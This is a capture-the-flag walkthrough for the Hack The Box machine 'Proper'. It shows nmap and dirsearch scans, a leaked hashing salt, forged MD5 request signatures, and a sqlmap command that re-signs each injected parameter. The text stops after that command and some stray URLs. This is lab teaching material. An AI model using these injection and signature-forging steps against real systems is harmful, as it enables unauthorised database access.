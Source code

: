 ## ----------------->> Proper <<----------------

// We start with nmap scan

    $nmap -sV -A -Pn -T4 10.10.10.231 -p-
----------

    Nmap scan report for 10.10.10.231
    Host is up (0.23s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: OS Tidy Inc.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// We can see only port 80(http) open, Lets check it out

![Image 1]()

// Its seems like some company products website,

// Move on to search for interesting directories or files with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.231/ -t 100 -w /usr/share/dirb/wordlists/big.txt 
--------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 20469

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.231/_21-08-24_09-17-58.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-08-24_09-17-58.log

    Target: http://10.10.10.231/

    [09:17:58] Starting: 
    [09:18:07] 301 -  150B  - /assets  ->  http://10.10.10.231/assets/
    [09:18:26] 301 -  152B  - /licenses  ->  http://10.10.10.231/licenses/

    Task Completed

// We found two directories /assets/ its Forbbiden but /licenses/ get us to login page

![Image 4]()

// guessing and sql injection syntaxes didnt work...

// Moving on to BurpSuite and open the first page (http://10.10.10.231/index.html) With Reapeter

// The response shows us that there another directory that load with the /index.html

![Image 2]()

    /products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b
    
// Navigating to there, shows us all the company products

![Image 3]()

// Also 'order=id+desc' looks like SQL query i will change desc to asc(read more abot [desc&asc](https://www.guru99.com/order-by-desc-and-asc.html))

![Image 5]()

// We got Forbidden page, Moving on...

// When removing the md5 hash from the browser we got error for parameter missing

![Image 6]()

// Lets try to remove 'h' parameter

// Now we get the same error but this time we get also crash details

![Image 7]()

// We got the secure-salt !

    'SECURE_PARAM_SALT','hie0shah6ooNoim'

// Lets check the hash with online hash-analyzer [tool](https://www.tunnelsup.com/hash-analyzer/)

![Image 8]()

// its md5 hash, we need to encrypt the salt now, we can do that with md5sum tool or online [tool](https://www.md5online.org/md5-encrypt.html)

    The MD5 hash for hie0shah6ooNoim is : 9094e65be4a9dc27cd4af70674a99c64

// And check the response status with curl

    $ curl -I http://10.10.10.231/products-ajax.php?order=id+asc&h='9094e65be4a9dc27cd4af70674a99c64'
-----

    HTTP/1.1 500 Internal Server Error
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 19:03:47 GMT

// we got status 500 (Internal Error)

// After some tries it work when i encrypted the salt and add 'id acs' - "hie0shah6ooNoimid asc"

    $ echo -n "hie0shah6ooNoimid asc" | md5sum
    181345bd7fce37aad011ea65a41b60c8  -

// And lets check it

    $ curl -I 'http://10.10.10.231/products-ajax.php?order=id+asc&h=181345bd7fce37aad011ea65a41b60c8'
-----

    HTTP/1.1 200 OK
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 18:49:52 GMT

// It worked !

// Now that we know the salt worked we can proceed to [sqlmap](https://github.com/sqlmapproject/sqlmap)tool with [this](https://securitypadawan.blogspot.com/2014/01/using-sqlmaps-eval-functionality-for.html) help to understand.

$sqlmap -u http://10.10.10.231/products-ajax.php?order=id+asc&h=181345bd7fce37aad011ea65a41b60c8 -p order --eval="import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()" -v 5 --dbs



https://github.com/evyatar9/Writeups/tree/master/HackTheBox/Proper

http://10.10.10.231/products-ajax.php?order=id+desc&h=9094e65be4a9dc27cd4af70674a99c64

The MD5 hash for hie0shah6ooNoimid asc is : 181345bd7fce37aad011ea65a41b60c8
